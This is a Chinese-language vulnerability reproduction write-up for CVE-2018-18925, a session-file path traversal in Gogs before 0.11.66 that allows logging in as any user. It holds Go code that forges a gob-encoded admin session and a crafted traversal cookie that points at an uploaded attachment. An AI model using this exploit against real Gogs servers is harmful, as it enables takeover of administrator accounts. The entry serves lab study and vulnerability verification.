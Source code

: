 （CVE-2018-18925）Gogs 任意用户登录漏洞
=======================================

一、漏洞简介
------------

gogs是一款极易搭建的自助Git服务平台，具有易安装、跨平台、轻量级等特点，使用者众多。

其0.11.66及以前版本中，（go-macaron/session库）没有对sessionid进行校验，攻击者利用恶意sessionid即可读取任意文件，通过控制文件内容来控制session内容，进而登录任意账户。

二、漏洞影响
------------

Gogs \< 0.11.66

三、复现过程
------------

执行如下命令启动gogs：

    docker-compose up -d

环境启动后，访问`http://your-ip:3000`，即可看到安装页面。安装时选择sqlite数据库，并开启注册功能。

安装完成后，需要重启服务：`docker-compose restart`，否则session是存储在内存中的。

漏洞利用
--------

使用Gob序列化生成session文件：

    package main

    import (
        "bytes"
        "encoding/gob"
        "encoding/hex"
        "fmt"
        "io/ioutil"
        "os"
    )

    func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
        for _, v := range obj {
            gob.Register(v)
        }
        buf := bytes.NewBuffer(nil)
        err := gob.NewEncoder(buf).Encode(obj)
        return buf.Bytes(), err
    }

    func main() {
        var uid int64 = 1
        obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
        data, err := EncodeGob(obj)
        if err != nil {
            fmt.Println(err)
        }
        err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
        if err != nil {
            fmt.Println(err)
        }
        edata := hex.EncodeToString(data)
        fmt.Println(edata)
    }

然后注册一个普通用户账户，创建项目，并在"版本发布"页面上传刚生成的session文件：

![1.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId25.png)

通过这个附件的URL，得知这个文件的文件名：`./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10`。

然后，构造Cookie：`i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10`，访问即可发现已经成功登录id=1的用户（即管理员）：

![2.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2018-18925)Gogs任意用户登录漏洞/media/rId26.png)

完整的利用过程与原理，可以阅读参考链接中的文章。

参考链接
--------

> https://vulhub.org/\#/environments/gogs/CVE-2018-18925/
